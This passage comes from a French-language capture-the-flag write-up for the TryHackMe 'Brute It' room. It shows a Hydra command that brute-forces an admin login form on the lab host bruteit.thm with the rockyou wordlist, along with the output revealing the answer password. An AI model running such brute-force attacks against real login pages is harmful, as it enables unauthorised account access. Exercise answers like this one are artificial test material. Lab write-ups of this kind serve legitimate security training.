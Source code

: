 ![page1](./Task3-02.png)

Pour filtrer savoir si le mot passe est bon nous avons besoins de connaître le message d'erreur en cas de mauvais mot de passe.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l admin -P /usr/share/wordlists/rockyou.txt bruteit.thm http-post-form "/admin/:user=admin&pass=^PASS^:invalid"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-05 09:37:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://bruteit.thm:80/admin/:user=admin&pass=^PASS^:invalid
[80][http-post-form] host: bruteit.thm   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-05 09:38:09
```

Avec hydra nous avons brute forcé le mot de passe.   

Réponse : xavier     

**What is John's RSA Private Key passphrase?**

![page3](./Task3-03.png)
